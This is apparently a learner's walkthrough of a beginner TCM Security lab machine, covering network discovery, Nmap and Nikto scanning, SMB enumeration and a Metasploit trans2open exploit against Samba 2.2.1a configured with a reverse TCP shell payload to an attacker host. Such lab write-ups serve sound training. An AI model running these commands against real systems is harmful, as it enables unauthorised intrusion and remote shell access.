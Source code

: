 # TCM Security - First Machine Hack Walkthrough

## 🧠 Summary

This walkthrough documents my approach to compromising a beginner-level Capture The Flag (CTF) machine from TCM Security. The goal was to simulate a real-world penetration test by enumerating services, identifying vulnerabilities, and exploiting them to gain access. This exercise helped reinforce my understanding of tools like Nmap, Nikto, SMB enumeration, and Metasploit. All steps are presented in order, with supporting screenshots, to guide others through the same learning process.

---

## 🔍 **Step 1: Discovering the Target**

I started by identifying machines on the local network using `netdiscover`.
![image](https://github.com/user-attachments/assets/1b7d3b51-ba12-4c02-af78-6d77f25febc7)



netdiscover -r 192.xxx.xx.x/24

This showed me the IP address of the machine I wanted to target. Once I had that, I moved on to port scanning.

## ⚡ Step 2: Port Scanning with Nmap

Next, I ran a full TCP port scan using Nmap to find all open ports and grab service/version info.

![Nmap Scan](https://github.com/user-attachments/assets/fbd66e99-eb3b-450a-8d47-e53893026566)



nmap -T4 -p- -A 192.168.1.193
-T4: faster timing

-p-: scans all 65535 ports

-A: aggressive mode (includes OS detection, version info, script scan, traceroute)

The scan revealed open ports including HTTP and SMB services.

## 🌐 **Step 3: Web Enumeration**
Since port 80 was open, I navigated to the web server and began enumerating.

Nikto Web Scanner
I used Nikto to scan for common web vulnerabilities:
![image](https://github.com/user-attachments/assets/496b5212-c643-4d16-ac28-fcc34256ba8f)


nikto -h http://192.168.x.xxx
This flagged possible remote buffer overflows and code execution vulnerabilities.

DirBuster Directory Discovery
I then ran DirBuster to brute-force hidden directories and file extensions:


dirbuster &
I added extensions like .pdf, .zip, and .rar to catch more files. While DirBuster ran, I manually reviewed the page source and found a 404 page that disclosed the Apache version — a small but useful info leak.
![image](https://github.com/user-attachments/assets/09bdaab1-3935-4951-b556-ef7d3b00fffe)



## 🔧 Step 4: SMB Enumeration
Back to the Nmap scan — I noticed SMB was running and decided to investigate further.

Using Metasploit to Identify SMB Version
I launched Metasploit and searched for SMB-related modules:

search smb
Then I used the SMB version scanner module:


use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.x.xxx

run
This revealed that the target was running Samba 2.2.1a, which is vulnerable.

Connecting with SMBClient
I attempted to connect to the file share using:
![image](https://github.com/user-attachments/assets/12a1ab35-a8c0-46bb-8113-6d8996ea8575)


smbclient //192.168.x.xxx/IPC$ -N
Anonymous login worked for IPC$, though I couldn’t access admin$.

📚 Step 5: Finding Exploits
With the Samba version identified, I searched Exploit-DB and found a known vulnerability that matched. I also found a Metasploit module on Rapid7’s site that could be used to exploit Samba 2.2.1a.

## 🚪 Step 6: Exploiting Samba with a Reverse Shell

After identifying that the target was running **Samba 2.2.x**, I searched for relevant Metasploit modules. I found the `trans2open` exploit and configured it with a **non-staged reverse TCP shell payload** (`linux/x86/shell_reverse_tcp`), which is simple and direct.

### Payload Settings:
- **LHOST**: `192.168.xx.xxx`
- **LPORT**: `4444`
- **CMD**: `/bin/sh`

Here’s what the payload configuration looked like:


set payload linux/x86/shell_reverse_tcp
set LHOST 192.168.57.139
set LPORT 4444
run

![image](https://github.com/user-attachments/assets/6f2ccb85-89e4-4f71-a18a-4e6ce24cec97)


I read through the exploit details and prepped the payload in Metasploit for potential use.

🛠 Tools I Used
-netdiscover

-nmap

-nikto

-dirbuster

-burpsuite

-metasploit

-smbclient

🎯 Conclusion
This machine helped me understand:

How to enumerate live hosts and open services

When and how to use aggressive Nmap scanning

Web-based reconnaissance using Nikto and DirBuster

SMB service enumeration and exploitation research

It was a great introduction to real-world penetration testing, and it showed me how powerful a combination of tools and research can be.


